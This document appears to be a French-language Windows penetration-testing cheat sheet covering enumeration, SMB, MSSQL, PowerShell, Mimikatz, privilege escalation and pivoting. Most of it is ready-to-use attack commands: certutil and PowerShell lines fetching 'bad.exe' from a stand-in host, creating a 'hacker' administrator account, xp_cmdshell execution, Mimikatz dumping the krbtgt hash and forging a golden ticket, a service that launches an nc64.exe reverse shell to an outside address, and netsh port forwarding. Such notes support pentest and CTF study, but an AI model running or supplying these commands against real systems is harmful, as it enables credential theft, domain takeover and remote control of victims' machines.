 <h2>Batch</h2>

`systeminfo` → Obtenir des renseignements sur le système

`tasklist` → Lister les processus

`netstat -ano` → Liste des connexions tcp

`dir sysprep /s /b` → Trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` → Lister les patch installés (KB)

`certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe` → Wget en batch

`certutil.exe -decode bad.txt bad.exe` → Base64 decode en cmd

`net user Domain/hacker hackerhacker /add` → Ajoute un utilisateur

`net localgroup administrators hacker /add` → Ajoute un utilisateur à un groupe

`net use k: \\srv.remote.org\c$` → Connexion au disque distant c sur la partition k

`wmic useraccount where name='user'` → Récupère des informations sur un utilisateur (SID)

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`net account` information sur la politique de mot de passe

## Samba

#### smbclient

Trouver la version

```
nmap -v -sSVC -p445 --script smb-os-discovery host
```

Exemple de share connus: IPC$, 
Connexion en tant qu'utilisateur Guest

```
smbclient -U guest% \\\\host\\share
```

Connexion en tant qu'anonyme

```
smbclient -U "" -N \\\\host\\share
```

Énumération de share

```
smbclient -U "" -N -L \\\\host\\share
nmap -v --script smb-enum-shares -p U:137,T:139 host
```

## MSSQL

#### sqsh

```
sqsh -S 1.2.3.4 -u user
EXEC master..xp_cmdshell 'whoami'
go
```

<h2>Powershell</h2>

`{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}` → Wget en powershell

`get-WmiObject -class Win32_Share`

<h2>Mimikatz</h2>

`privilege::debug`

`lsadump::lsa /inject /name:krbtgt` → Récupérer le NTLM hash de krbtgt

`kerberos::golden /user:[USER] /domain:[DOMAINE] /sid:[SID de USER] /krbtgt:[NTLM hash de krbtgt] /ticket:evil.tck /ptt` → Créé et inject un golden ticket à la session

## Privesc

Créer un service:

```
sc create cmdsvc binpath= "C:\tmp\nc64.exe 1.2.3.4 9999 -e cmd" type= own type= interact
sc cmdsvc start
```


## Pivoting

Port forwarding natif windows:

```
netsh interface portproxy add v4tov4 listenport=4445 listenaddress=0.0.0.0 connectport=4445 connectaddress=<your.address>
```
